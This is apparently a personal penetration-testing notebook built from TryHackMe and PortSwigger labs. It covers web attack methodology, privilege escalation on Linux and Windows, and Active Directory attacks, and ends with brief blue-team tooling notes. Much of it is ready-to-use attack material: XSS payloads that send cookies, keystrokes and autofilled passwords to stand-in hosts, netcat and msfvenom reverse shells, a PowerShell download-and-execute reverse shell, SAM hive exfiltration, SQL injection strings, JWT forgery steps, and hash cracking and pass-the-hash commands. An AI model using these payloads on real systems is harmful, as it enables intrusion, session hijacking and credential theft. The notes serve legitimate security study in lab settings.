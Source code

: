 # METHODOLOGY
1. Look at the available scopes
2. Run Ultimate.sh on it
3. Run shodan.io on the main domain
4. Run smuggler.py python script
5. Read previous bug reports, list them down
6. Get the domain unusual domain
7. Run nuclei on the domain
8. Run FFUF to get the content, save the content
9. Run owasp scanner, visit the entire content
10. Run burp scanner on it
11. List authentication endpoint
12. List authorized access controlled docs/endpoints
13. On the inputs, run test OS command injection, XSS, SQLI, SSTI, SSRF, directory traversal
14. For authentication run authentication attacks
15. For authorization run Auhtorization attacks
16. Then searhcing for logical issues, pass in garbage values, try skipping steps
17. If fav.ico is used by framework, download, get md5, use https://wiki.owasp.org/index.php/OWASP_favicon_database
18. google dorking, site:tryhackme.com, inurl:admin, filetype:pdf, intitle:admin
19.  wayback
20.  github, see repo, old passwords?
21. S3 Buckets S3 Buckets are a storage service provided by Amazon AWS, allowing people to save files and even static website content in the cloud accessible over HTTP and HTTPS. The owner of the files     can set access permissions to either make files public, private and even writable. Sometimes these access permissions are incorrectly set and inadvertently allow access to files that sh    ouldn't be available to the public. The format of the S3 buckets is http(s)://{name}.s3.amazonaws.com where {name} is decided by the owner, such as tryhackme-assets.s3.amazonaws.com. S3     buckets can be discovered in many ways, such as finding the URLs in the website's page source, GitHub repositories, or even automating the process. One common automation method is by usi    ng the company name followed by common terms such as {name}-assets, {name}-www, {name}-public, {name}-private, etc.

### Authntication
 - Username enumeration, bruteforce username and password
 - there may be subltle differences like missing of period "Invalid Username and password." to "Invalid Username and password."
 - You can add column in intruder, for mulitple us pitchfork
 - Response timing may be different for valid usernames, send extra long passwords so that time difference is huge
 - X-Forwarded-For random value may bypass bruteforce protection
 - Sometimes bruteforce blocks IP, and successful login may rest IP blocking
 - User account limiting may be done, so a user, use three passwords for three limit, then while that user blocked try for another user
 - If another account creation is possible, create another account, and use autorize or auth matrix
 - parameter modification maybe? http://www.site.com/page.asp?authenticated=no, something in body u could change?
 - IDOR?
 - Test Password reset functionalities.
 - is there any alternate channel to authentication? weaker maybe?
 - SQL injection? (' OR TRUE --) (username '-- [comment password section])
 - Broken captcha. captcha may be abel to be obtained from a rest api
 - main.js may have path info
 - Re registering already existing user, with extra spaces? 

### Sensitive Data Exposure
 - Metrics path exposed, ex: for prometheus usually /metrics
 
### Access control
 - identifier-based access control. ex: https://test.com?doc=1234 , can u access directly if doc param value matches?
 - check for static files, directly accessible?
 - MUlti-stage, is another step direclty accessible?
 - Platform misconfiguration. use of different header?
 - Referer based? location based?
 - Change json values, example add duplicate fields, ex: in juice shop {"ProductId":1,"BasketId":"6","BasketId":"1","quantity":1}, another baskedID would be of another user.
 - Api Endpoint from which we can directly modify data, try different http methods
### Host Header Attacks:
 - Modify Host header and check if it responds
 - flawed validation in host? starts with, ends with
   Ex: Host: vulnsite.com  then  vulnsite.attackersite.com
 - Duplicate host header
 - Absolute URL
   Ex: GET https://original-site.com
       Host: attackersite.com
 - Multiple Host Headers
   ex: Host: asdasd
	<space> Host: asdasdasd
 - Inject host overrides
   Ex: X-Forwarded-Host: 
 - Possibilites: Password reset poisioning, web cache poisioning, host header auth bypass, Routing based SSRF, SSRF via via flawed request parsing, via malformed request line


### SSRF
 - check if any url is being added in body values or url parameters
 
### Directory Traversal
 - check where path is being loaded, including <img> tags
 - ../../../etc/passwd
 - ....// for bypassing .. stripping
 - /etc/passwd
 - %252f
 - /var/www/images/../../../etc/passwd
 - ../../../etc/passwd%00.png
 

 ###  XSS
  - How to test for Reflected XSS:

You'll need to test every possible point of entry; these include:

    Parameters in the URL Query String
    URL File Path
    Sometimes HTTP Headers (although unlikely exploitable in practice)
  - How to test for Stored XSS:

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

    Comments on a blog
    User profile information
    Website Listings
  - How to test for Dom Based XSS:


DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "window.location.x" parameters.


When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as eval().

  - How to test for Blind XSS:


When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.


A popular tool for Blind XSS attacks is xsshunter. Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.
  - To get cookie <script>document.location="attacker-domain"+document.cookie</script>, and then check log
  - If html injection, but script not alerting maybe use payload <iframe src="javascript:alert(`xss`)">
  - session stealing <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
  - Key Logger:<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
  - Business Logic: <script>user.changeEmail('attacker@hacker.thm');</script>
  - bypass script string replace <sscriptcript>alert('THM');</sscriptcript>
  - on image tag, /images/cat.jpg" onload="alert('THM');

### CORS
 - Use the cors script
 - Access-Control-Allow-Origin check if it is randomly generated
 - check for eror parsing like starts with, endswith
 - check if null is sent
 - Can XSS be exploited
 - Can TLS be broken?
 - Can intranet be accessed?

### Server Side Template Injection
 - See where user supplied data is being reflected
 - Send fuzzing data usually {{<%[%'"}}%\]>}} or use the payload listed belows, use ffuf maybe?,but if response appears in another page, no use, only if same place resposne appears then ffuf can be of use
 - If found, read about template engine/secuirty implication sections
 - get idea of different objects and functions
 - Some templates and their SSTI: https://github.com/GoSecure/template-injection-workshop
 - Pentest Sheet: https://cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti
 - Dgango specific: https://lifars.com/wp-content/uploads/2021/06/Django-Templates-Server-Side-Template-Injection-v1.0.pdf
 - Payloads: https://github.com/swisskyrepo/PayloadsAllTheThings
 - good lab: https://gosecure.github.io/template-injection-workshop/#7
 - object chaining: ${ product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve("/home/carlos/my_password.txt").toURL().openStream().readAllBytes()?join(" ") }

### SQL
 - UNION BASED
 - https://portswigger.net/web-security/sql-injection/examining-the-database
 - https://portswigger.net/web-security/sql-injection/cheat-sheet
 - https://portswigger.net/web-security/sql-injection/union-attacks
 - FOR oracle db, till we get number of columns right shiftnumber of nulls
 - 1'+UNION+SELECT+table_name,NULL+FROM+all_tables-- 
1'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_GAITNR'--
1'+UNION+SELECT+USERNAME_BHDQJI,PASSWORD_OGTKPZ+FROM+USERS_GAITNR-- 
**LAB PRACTISE: https://github.com/s4n7h0/xvwa**
** PAyload: https://github.com/swisskyrepo/PayloadsAllTheThings **

https://github.com/bugcrowd/bugcrowd_university

### JWT 
				    https://www.invicti.com/blog/web-security/json-web-token-jwt-attacks-vulnerabilities/
 - Change claims, signature might not verified so u can access easily
 - change claims, change alg to none, remove signature except trailing dot, weak verification
 - Brute force signing key. `hashcat -a 0 -m 16500 <jwt> <wordlist>`. Wordlist https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list.  if it is cracked token:<key>. base64encode that key. in jwt edit, new symmetric key, generate, replace `k` with base64 encoded key, go back to repeater and sign
 - only "alg" key is compulsory, rest is optional. Devs use "jwk" ->  - Provides an embedded JSON object representing the key. 
	```json
	{
    "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
    }
}
	```
	Devs should whitelist keys to verify in the backend, if they just use the key in the jwk, then attacker could insert their own key.
	Steps:
		

   	 With the extension loaded, in Burp's main tab bar, go to the JWT Editor Keys tab.

   	 Generate a new RSA key.

    	Send a request containing a JWT to Burp Repeater.

    	In the message editor, switch to the extension-generated JSON Web Token tab and modify the token's payload however you like.

    	Click Attack, then select Embedded JWK. When prompted, select your newly generated RSA key.

   	 Send the request to test how the server responds.


 - "jku", points to our custom exploit server, use the jwt editor burp plugin, generate, copy and paste to custom exploit server,
```json
{
    "keys":[
{
    "kty": "RSA",
    "e": "AQAB",
    "kid": "d3818709-acea-4457-8946-58a9ac958d8b",
    "n": "hzcJ00KMoO6V1hN7MiwBuHVujFV4EmWnEs6SRSgVw0SQM60iV3HmJbbF69dC5hadgoN19QSa12ZCB41Jq7PGfx8cI1RE2WPiy7id8nFfmzKVuEtAVK-lDGfx89YWPOCRl1R7MTrU6lLO9zPbP2FWLpbNm0Ooj602JMgWEIWPz43llz4xgJOmYX8EQia9ntKeOs9-2vjL6OVWjdyR3i8JD0jiFvpQ8iY-ufEdVaRuBjaoeH5N_-dF3SNh7ccK5yoRvWAW9K2NKCrjpyL1wRql775Xdk93zBh9LVj4UBaAPo-NOv06hm1ixia-DI_h9V1Ef4wEbmXhO4ws1X1ahZb-kw"
}
    ]
}	
```
  when signing make sure "type":"jwt" is added, and remove "kid."
 - Servers may use several cryptographic keys for signing different kinds of data, not just JWTs. For this reason, the header of a JWT may contain a kid (Key ID) parameter, which helps the server identify which key to use when verifying the signature. 
	```json
	{
    "kid": "../../path/to/file",
    "typ": "JWT",
    "alg": "HS256",
    "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
}
	```
	Generate to generate a new key in JWK format. Replace the generated value for the k property with a Base64-encoded null byte (AA==).  ../../../../../../../dev/null .
 - make “alg”: “none”, make changes, and then Use an empty signature (i.e. signature = “”), has to have trailing dot.
 - https://pentestbook.six2dez.com/enumeration/webservices/jwt
 - https://kleiton0x00.github.io/posts/json-web-token-exploitation/
 - https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens
 - https://github.com/sergioms/PentestJWT
 - https://medium.com/@netscylla/json-web-token-pentesting-890bc2cf0dcd
 - https://materials.rangeforce.com/tutorial/2019/05/29/Breaking-JWTs/
### XSS payload
 - steal cookies<script>
fetch("https://28871y2murqilrzo0kexuhsd74du1j.burpcollaborator.net",{
method:"POST","mode": "no-cors", body:document.cookie,
})
</script>
 - steal password autofill <input name=user id=user>
<input name=pass id=pass 
onchange="if(this.value.length)fetch('https://f4kkxbyzq4mvh4v1wxaaquoq3h99xy.burpcollaborator.net', {method: 'POST', mode:'no-cors',body: user.value+' '+this.value}),">

### SSRF
 - places to look for
   - When a full URL is used in a parameter in the address bar:
   - A partial URL such as just the hostname: like http://test?s=api
   - Or perhaps only the path of the URL: like http://test?s=/form/
   Deny List

A Deny List is where all requests are accepted apart from resources specified in a list or matching a particular pattern. A Web Application may employ a deny list to protect sensitive endpoints, IP addresses or domains from being accessed by the public while still allowing access to other locations. A specific endpoint to restrict access is the localhost, which may contain server performance data or further sensitive information, so domain names such as localhost and 127.0.0.1 would appear on a deny list. Attackers can bypass a Deny List by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.


Also, in a cloud environment, it would be beneficial to block access to the IP address 169.254.169.254, which contains metadata for the deployed cloud server, including possibly sensitive information. An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address 169.254.169.254.


Allow List

An allow list is where all requests get denied unless they appear on a list or match a particular pattern, such as a rule that an URL used in a parameter must begin with https://website.thm. An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as https://website.thm.attackers-domain.thm. The application logic would now allow this input and let an attacker control the internal HTTP request.


Open Redirect

If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect. An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address. Take, for example, the link https://website.thm/link?url=https://tryhackme.com. This endpoint was created to record the number of times visitors have clicked on this link for advertising/marketing purposes. But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with https://website.thm/. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.

### Open Redirection
  - DOM-based open-redirection vulnerabilities arise when a script writes attacker-controllable data into a sink that can trigger cross-domain navigation.
  Ex: = 'returnUrl = **/url**=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>
  so Attack can be https://origianl_url&url=AttackersURL cause the URL parameter is directly writable by the user
### OWASP top 10 API
  - *API broken user authentication*, Password dump in breach, and 2fa brute force
  - *Broken Function Level authorization*, api endpoint /api/user/453, user id Change may get access, or access for another method ?
  - *Execissive data exposure*, EX: if password reset api, gives the link directly as response as well, or something similar
  - *Mass assignment* extra properties in JSON object passed. Ex: in forgot password {username:asd,password:"asd",isAdmin:false}, could change isAdmin to true

### graphql
  - no need to send multiple requests, one will work
  - query = is for querying, mutation = is for writing, subscriptio = is to get notification
  - get all possible field names (intropection) {__schema{types{name,fields{name}}}}
  - To get what query that can be performend, and arguements type query {
  __schema {
    queryType {
      fields {
        name
        args {
          name
        }
      }
    }
  }
}
  - Check if any unauthorized access can be done (Authorization bypass)
  - Exessive data exposure, information disclosure
  - 
  - Ex: Once u get schema in insomnia, (may need to add auth manually, not just header), show doc, 
  - https://konghq.com/blog/insomnia-graphql/
  - https://graphql.org/learn/introspection/
  - https://docs.insomnia.rest/insomnia/graphql-queries
  - https://konghq.com/blog/insomnia-graphql/
  -https://book.hacktricks.xyz/pentesting/pentesting-web/graphql#query-__schema-types-name-fields-name
  - https://prog.world/pentest-applications-with-graphql/

tomorrow on insomnia, try this
{"query":"query {\n          organization {\n            id\n            type\n            legacyType\n            flag {\n              client\n              vendor\n              agency\n              individual\n            }\n          }\n          companySelector {\n            items {\n              organizationId\n              organizationRid\n              organizationEnterpriseType\n              organizationType\n              organizationLegacyType\n              typeTitle\n              title\n              photoUrl\n            }\n          }\n        }"}

pes[Cf!Cal

## Mass assignment
 - Mass assignment reflects a scenario where client-side data is automatically bound with server-side objects or class variables. However, hackers exploit the feature by first understanding the application's business logic and sending specially crafted data to the server, acquiring administrative access or inserting tampered data. This functionality is widely exploited in the latest frameworks like Laravel, Code Ignitor etc.
 - like when creating user, `credit` column, u can actually add the value.

### Go specific stuff
	go specific CVEs
OWASP
sync
input processing, large size, floating point
set timeout

size limiter = go io limiter

input validation, negative value ?

cuelang, synk

hydra -l lazie -P /mnt/c/D/SecLists-master/Passwords/Common-Credentials/common-passwords-win.txt 10.10.112.12 imap
	
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.234.98 http-post-form "/login.php:username=admin&password=^PASS^&Submit=Login:Warning"

           
pentester@TryHackMe$ telnet MACHINE_IP 110
Trying MACHINE_IP...
Connected to MACHINE_IP.
Escape character is '^]'.
+OK MACHINE_IP Mail Server POP3 Wed, 15 Sep 2021 11:05:34 +0300 
USER frank
+OK frank
PASS D2xc9CgD
+OK 1 messages (179) octets
STAT
+OK 1 179
LIST
+OK 1 messages (179) octets
1 179
.
RETR 1
+OK
From: Mail Server 
To: Frank 
subject: Sending email with Telnet
Hello Frank,
I am just writing to say hi!
.
QUIT
+OK MACHINE_IP closing connection
Connection closed by foreign host.


# Metasploit
1. may need to migrate if hashdump does not work
2. not all are hashes ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:5ff44baab48ef90b6a2eccc1786d0dd9::: :5... is hash, use online crackstation?
3. search -f <filename> in meterpreter
4. command `background` to get out of session, and use post/... modules

# Privilege Escalation

 - Use the following tools

    LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/
    
    LinEnum: https://github.com/rebootuser/LinEnum
    
    LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
    
    Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
    
    Linux Priv Checker: https://github.com/linted/linuxprivchecker 

- Use GTFO bin, look at how they can be used to escape. https://gtfobins.github.io/  
- if u have sudo permission to somethings
- also we can check if suid or sgid bit are set in gtfo bins
- find place with suid bit set find / -type f -perm -04000 -ls 2>/dev/null
- To crach password use the following command \john.exe  --wordlist=C:\D\SecLists-master\Passwords\Common-Credentials\10k-most-common.txt pass.txt
- .\john.exe pass.txt --show
- manipulating $PATH, if a code execute commands like this system("thm"), change path to point to your binary, the calling code must have setuid set to escalate privilige.
- network mound, if no_root_sqash present
`showmount -e victimsIP`
`mount -o rw ip:/victimdir local_dir/`
make file with suid bit set in local_dir
change owner to root
run in victims machine

 - Check for any cronjob, that we can manipulate
 - check its sudo permissions `sudo -l`
- get capabilites `getcap -r / 2>/dev/null`

# Windws prov sec
1. Saved passwords
## when mass deployed
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
## powershell history
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
## saved creds
cmdkey /list
runas /savecred /user:admin cmd.exe

## saved IIS configuration
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

## putty proxy configuration
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

## scheduled tasks
 - `schtasks /query /tn vulntask /fo list /v`  this command trims down the output
 - just check the `Task To Run` and `Run As`
 - `icacls <binary_from_task_to_run>`
 - If you can modify binary, then you can run ur own code `echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`
	
## AlwaysInstallElevated
 - MSI files, if some registry keys have been set, can run with higher priviliges 
 - keys to check `C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
 - Generate the payload `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.247.41 LPORT=LOCAL_PORT -f msi -o malicious.msi`
 - Run the payload `C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

## Insecure Permissions on Service Executable
 - `sc qc <Service_name>`
 - `icacls <binary>`
 - Can u modify it?
 - msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
 - setup a python http server, in powershell download using wget
 - move the original service binary file, since the service binary will be run by another user, change permission  `icacls WService.exe /grant Everyone:F`
 - `sc stop <service>` `sc start <service>`
 - not any binary can be run as service, so be careful

## Unquoted Service Paths
 - If task to run binary path is not properly quoted like `C:\MyPrograms\Disk Sorter Enterprise\bin`
 - sc will look for `C:\MyPrograms\Disk.exe` `C:\MyPrograms\Disk Sorter.exe` and `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe` respectively
 - If u can create such files in the directories, like Disk.exe, u can modify which service is executed.

## Insecure Service Permissions
 - not of binary, but of service itself
 - can use tool from https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk
 - accesschk64.exe -qlc <service_name>
 - `icacls C:\Users\me\bin.exe /grant Everyone:F`
 - `sc config THMService binPath= "C:\Users\me\bin.exe" obj= LocalSystem`
 - sc stop and start again

## Windows Privliges
 - to check your privilige `whoami /priv`
 - use methods from https://github.com/gtworek/Priv2Admin
 - tryhackme had `SeBackup / SeRestore` lab
```
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.


user@attackerpc$ mkdir share
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
   

C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\

        

And use impacket to retrieve the users' password hashes:
Kali Linux

user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```
## Other stuffs
- search for installed programs and exploit any known vulnerabilities `wmic product get name,version,vendor` may also need to check desktop shortcut, services and other indicator of installed apps.
 - Additional tools to use `https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS` `https://github.com/itm4n/PrivescCheck` `https://github.com/bitsadmin/wesng` `metasploit multi/recon/local_exploit_suggester` 

## SAMBA
 - Interopratibility program for linux and unix to windows SMB
 - `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>`
 - `smbclient //<ip>/anonymous`  // if anon supported
 - `smbget -R smb://<ip>/anonymous`  // recursively download everything
 - `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.244.32`  // recon network file share
 - If u find vulnerability in searchsploit, if not RCE, others thing we can do, like copy files? proftd had something similar, copy ssh key?
 - `mkdir /mnt/NFS` `mount victim_ip:/var /mnt/NFS` `ls -la /mnt/kenobiNFS1`

## Jenkins room
 - check default creds
 - search for functionality to execute commands (it was in build options)
 - privsec https://github.com/samratashok/nishang
 - powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
 - whoami /priv may give SeImpersonatePrivilege 
 - we can impersonate in meterpreter
 - `list_tokens -g`
 - `impersonate_token "BUILTIN\Administrators" `

## SMB
 - basically a request-response protocol over netbios on TCP/IP, unix has open source version that implements it SMB
 - used to share access to files, printers, serial ports and other stuffs
 - client sends request to server, and can send requests to server to perform stuff.
 - SMB share drives on a server that can be connected to and used to view or transfer files
 - enumeration, port scanning or enum4linux https://github.com/CiscoCXSecurity/enum4linux `enum4linux [options] ip`. 
 - port 445 by default, do nmap -sV
 - note down the username, workgroup and interesting share names
 - anonymous connect using `smbclient \\IP\share_name -u username`. try anon login without username
 - download file with `get <filename>`

## NFS
 - Network File System
 - use `nfs-common` package
 - sudo mount -t nfs IP:share /tmp/mount/ -nolock
 - `showmount e IP` to list shares
 - root_squash, (in ur pc, download a bash form internet, set it suid, chmod +s ..., ssh into machine and then run the bash)

## SMTP
 - connect using telnet and VRFY, EXPN, and RCPT TO commands.
 - metasploit auxiliary smtp modules.
## MYSQL
 - username and password already required
 - mestasploit schema dump and hash dump
 
## Active Directory
 - Windows domain is a group of users and computers under the administration of a given business
 - Active Directory acts as a catalogue that holds the information of all of the "objects" that exist on your network.
 - Users and Machine
 - GPOs are distributed to the network via a network share called SYSVOL, 
 -  it might take up to 2 hours for computers to catch up. 
 - force update GRP sync in local computer `gpupdate /force`
 - authentication method kerberos and netNTML
 - kerberos preferred, send username and password to kerberos server, and it returns ticket granting ticket, lookup process online if confused.
 - netNTLM from tryhackme https://tryhackme.com/room/winadbasics  
`The client sends an authentication request to the server they want to access.
The server generates a random number and sends it as a challenge to the client. The client combines their NTLM password hash with the challenge (and other known data) to generate a response to the challenge and sends it back to the server for verification. The server forwards the challenge and the response to the Domain Controller for verification. The domain controller uses the challenge to recalculate the response and compares it to the original response sent by the client. If they both match, the client is authenticated; otherwise, access is denied. The authentication result is sent back to the server. The server forwards the authentication result to the client.`
 - nmap scan, use kerbrute to get usernames? ```./kerbrute_linux_386 userenum usernames.txt --dc domain_controller```
 - ./kerbrute_linux_amd64  userenum userlist.txt -d spookysec.local --dc 10.10.107.161
 - ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. USe impacket tools ```python3.9 /opt/impacket/examples/GetNPUsers.py spookysec.local/svc-admin```. Might need to set dns config to map domain to IP. after the tool, u might get hash
 - Lookup hash in `https://hashcat.net/wiki/doku.php?id=example_hashes`
 - `hashcat -m 18200 -a 0 pass_hash.txt passwordlist.txt` pass_hash.txt must have the full, hashcat_wiki is a good resource
 - form there u can try different things
 - smbclient `smbclient -L \\\\10.10.107.161 -U spookysec.local/svc-admin`
 - `smbclient \\\\10.10.107.161\\backup -U spookysec.local/svc-admin` to connect to the shares.
 - From tryhackme notes :"Knowing this, we can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer" `python3.9 /opt/impacket/examples/secretsdump.py spookysec.local/backup@10.10.152.71`
 - Most of the replication related tasks are specified on the Directory Replication Service (DRS) Remote Protocol. The Microsoft API which implements such protocol is called DRSUAPI.
 - look at the format `Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::` uid:rid:lmhash:nthash
 - pass the hash attack using `evil-winrm -u backup -H 19741bde08e135f4b40f1ca9aab45538 -i spookysec.local`
 - another tool https://github.com/GhostPack/Rubeus, need to launch in windows, listens for any kerberos tickets being passed in network `Rubeus.exe harvest /interval:30`
 - Kerberoasting is a post-exploitation attack technique that attempts to crack the password of a service account within the Active Directory (AD). In such an attack, an adversary masquerading as an account user with a service principal name (SPN) requests a ticket, which contains an encrypted password, or Kerberos.
 -  BloodHound to find all Kerberoastable accounts,
 - With rubeus `Rubeus.exe kerberoast` and u can try to crack the hash `hashcat -m 13100 -a 0 hash.txt Pass.txt`.
 - with impacket `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.128.123 -request` and crack the hash
 - AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.
 - NOTE from tryhackme `During pre-authentication, the users hash will be used to encrypt a timestamp that the domain controller will attempt to decrypt to validate that the right hash is being used and is not replaying a previous request. After validating the timestamp the KDC will then issue a TGT for the user. If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who they say that they are`
 - For AS-REP roasting, using rubeus, need to add  Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User. Make hash type `Kerberos 5, etype 23, AS-REP`
  - `hashcat -m 18200 hash.txt Pass.txt`
  - Pass the ticket works by dumping the TGT from the LSASS memory of the machine. The Local Security Authority Subsystem Service (LSASS) is a memory process that stores credentials on an active directory server and can store Kerberos ticket along with other credential types to act as the gatekeeper and accept or reject the credentials provided
  - using mimikatz dump the ticket `sekurlsa::tickets /export` and then use the ticket `kerberos::ptt <ticket>` <ticket> = ticket file path
  - Check if a system is part of domain `systeminfo | findstr Domain`
 - https://github.com/ThePacketBender/notes/blob/master/hashcat.examples.txt

## Machine notes
 - sshkeygen creeate persistence man, can you copy for another user in auhtorized_keys
 - linpeas for info
 - rootsquash ,copy bash as root, set suid bash in network share
 - run the bash from remote session
 - ` ssh paradox@10.10.35.239 -i paradox 2049:localhost:2049` port forwarding if local mounting is not allowed
 - `mount -t nfs localhost:/ nfs/` after mounting locally
 
# Blue team notes
 - yara <path to specific yara rule file> target
 - python loki.py -p .  (loki is an alternative)
 - python3 yarGen.py -m <path to file to generate signature for> --excludegood -o <destination to .yar signature> https://github.com/Neo23x0/yarGen
 - floss (to auto decode strings in malware and detect them) https://www.mandiant.com/resources/blog/automatically-extracting-obfuscated-strings https://github.com/mandiant/flare-floss/releases
 - ssdeep compare hashes between two files, and their similarity percentage using fuzzy hashes. A fuzzy hash is a Context Triggered Piecewise Hash (CTPH). This hash is calculated by dividing a file into pieces and calculating the hashes of the different pieces. https://ssdeep-project.github.io/ssdeep/index.html
 - capa does a little bit of triage automation https://github.com/mandiant/capa
 - pestudio some automated analysis in PE header
